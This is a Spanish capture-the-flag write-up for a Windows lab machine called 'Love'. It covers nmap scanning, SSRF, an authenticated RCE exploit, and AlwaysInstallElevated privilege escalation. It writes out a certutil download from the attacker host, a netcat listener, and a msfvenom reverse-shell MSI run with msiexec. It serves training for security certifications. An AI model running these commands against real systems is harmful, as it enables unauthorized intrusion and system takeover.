 # Love

**Sistema Operativo**: Windows

**Dificultad**: Fácil

**Técnicas Vistas**: Server Side Request Forgery (SSRF) / 
Exploiting Voting System / 
Abusing AlwaysInstallElevated (msiexec/msi file)

Te prepara para las **Certificaciones**: eJPT / 
eWPT / 
OSCP (Escalada)

![image](https://github.com/user-attachments/assets/feef1627-bc61-468d-ba86-5989e24871c5)<br><br>

# Reconocimiento


Utilizando `nmap` encontramos estos puertos abiertos:<br>

![image](https://github.com/user-attachments/assets/bab736ff-d081-4755-85d4-c6977f92a156)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br><br><br>

Encontramos un subdominio y dominio que lo ponemos en `/etc/hosts`<br><br>

![image](https://github.com/user-attachments/assets/440ea5df-5a7b-483f-b0e6-794ba236af27)<br><br>

# Explotación SSRF 

Tenemos las credenciales de `admin`<br>

![image](https://github.com/user-attachments/assets/7de4ae8b-1c76-4f3b-916e-f4e017cf77ce)<br><br>

Utilizando `searchsploit` vemos una autenticación RCE<br>

![image](https://github.com/user-attachments/assets/a397ba57-c4fb-4c0e-a0f6-b64b7a5b4853)<br><br>

Aplicamos estos cambios en el `exploit`<br>

![image](https://github.com/user-attachments/assets/04ea8ada-2237-4b1a-a559-3107e73685b6)

- `python3 exploit.py` -> Ganamos acceso<br><br>
- `rlwrap nc -nlvp 443`

# Escalada de privilegios

Nos descargamos el WinPEASx64.exe<br>

https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225<br><br>

### Transferir archivo

- `C:\Windows\Temp` -> directorio como "tmp"
- `mkdir prives` -> Crear directorio
- `cd prives` -> Entramos al directorio creado
- `python3 -m http.server 80` -> Abro puerto con el binario en linux
- `certutil.exe -f -urlcache -split http://10.10.14.55/winPeas.exe winPeas.exe` -> Me transfiero el winPeas.exe al windows
- `.\winPeas.exe systeminfo` -> ejecutar<br><br>

Si el `AlwaysInstallElevated` esta en 1, es vulnerable<br>


![image](https://github.com/user-attachments/assets/6ab88c52-2667-40a3-9339-49de361bcaf5)<br><br>

Creamos una reverse shell con `msfvenom`

- ` msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.55 LPORT=443 -f msi -o reverse.msi` -> Creamos el exploit<br>

Nos lo transferimos donde tenemos el `winPeas`

- `msiexec /quiet /qn /i reverse.msi`  -> Así lo ejecutamos<br><br>


Flag final:<br>

![image](https://github.com/user-attachments/assets/63613b84-4500-44b6-badd-025673b503b7)<br><br>
